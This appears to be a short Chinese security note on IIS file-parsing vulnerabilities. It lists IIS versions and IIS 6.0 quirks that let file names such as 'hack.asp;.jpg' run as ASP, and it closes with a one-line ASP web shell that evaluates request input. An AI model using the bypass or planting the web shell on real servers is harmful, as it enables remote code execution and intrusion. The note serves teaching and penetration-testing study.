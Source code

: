# IIS文件解析漏洞



IIS使用最多的版本：

- winServer2003内置的`IIS6.0`
- winServer2008内置的 `IIS7.0`
- `IIS7.5` 
- winServer2016内置的`IIS10`

IIS6.0 默认配置： 

- `asa` `cdx` `cer` 都能当作asp解析

- 文件名`hack.asp;.jpg`会被当作asp解析
- 路径`hack.asp/1.jpg`会被当作asp解析

- `asmx`能当作aspx

asp一句话

```asp
<%eval request('a')%>
```



